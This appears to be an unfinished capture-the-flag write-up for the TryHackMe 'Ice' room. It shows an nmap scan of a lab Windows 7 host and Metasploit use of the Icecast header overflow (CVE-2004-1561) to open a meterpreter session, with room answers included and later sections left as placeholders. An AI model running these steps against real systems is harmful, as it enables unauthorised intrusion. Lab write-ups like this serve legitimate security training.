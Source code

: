 # CTF Writeup: TryHackMe - Ice

## Challenge Description

Deploy & hack into a Windows machine, exploiting a very poorly secured media server.

https://tryhackme.com/room/ice

## Solution

### Reconnaissance

Let's begin by conducting a scan of the machine to identify any open ports. We then notice Icecast is running on port 8000, RDP on port 3389 and the hostname of the machine is DARK-PC.

```
$ nmap -sC -sV 10.10.58.222
...
Not shown: 988 closed ports
PORT      STATE SERVICE       VERSION
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds  Windows 7 Professional 7601 Service Pack 1 microsoft-ds (workgroup: WORKGROUP)
3389/tcp  open  ms-wbt-server Microsoft Terminal Service
| ssl-cert: Subject: commonName=Dark-PC
| Not valid before: 2023-01-28T15:22:55
|_Not valid after:  2023-07-30T15:22:55
|_ssl-date: 2023-01-29T15:27:23+00:00; 0s from scanner time.
5357/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Service Unavailable
8000/tcp  open  http          Icecast streaming media server
|_http-title: Site doesn't have a title (text/html).
49152/tcp open  msrpc         Microsoft Windows RPC
49153/tcp open  msrpc         Microsoft Windows RPC
49154/tcp open  msrpc         Microsoft Windows RPC
49158/tcp open  msrpc         Microsoft Windows RPC
49159/tcp open  msrpc         Microsoft Windows RPC
49160/tcp open  msrpc         Microsoft Windows RPC
MAC Address: 02:E5:43:F5:04:E1 (Unknown)
Service Info: Host: DARK-PC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_nbstat: NetBIOS name: DARK-PC, NetBIOS user: <unknown>, NetBIOS MAC: 02:e5:43:f5:04:e1 (unknown)
| smb-os-discovery: 
|   OS: Windows 7 Professional 7601 Service Pack 1 (Windows 7 Professional 6.1)
|   OS CPE: cpe:/o:microsoft:windows_7::sp1:professional
|   Computer name: Dark-PC
|   NetBIOS computer name: DARK-PC\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2023-01-29T09:27:23-06:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2023-01-29 15:27:23
|_  start_date: 2023-01-29 15:22:54

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 124.17 seconds
```

### Gain Access

This machine is using a vulnerable version of Icecast which is a streaming media server.

1. What type of vulnerability does Icecast us? https://www.cvedetails.com/cve/CVE-2004-1561/
> Execute Code Overflow

2. What is the CVE number for this vulnerability?
> CVE-2004-1561
> An exploit can be found on exploit-db here: https://www.exploit-db.com/exploits/568


Using msfconsole for exploitation
```
$ msfconsole
msf5 > search icecast
Matching Modules
================

   #  Name                                 Disclosure Date  Rank   Check  Description
   -  ----                                 ---------------  ----   -----  -----------
   0  exploit/windows/http/icecast_header  2004-09-28       great  No     Icecast Header Overwrite

msf5 > use 0
msf5 exploit(windows/http/icecast_header) > run RHOSTS=10.10.58.222
...
meterpreter >
```

```
3. What is the full path (starting with exploit) for the exploitation module?
exploit/windows/http/icecast_header

4. What is the only required setting which currently is blank?
rhosts

```



### Step 3

[Description of third step goes here]

## Flag

[Flag goes here]
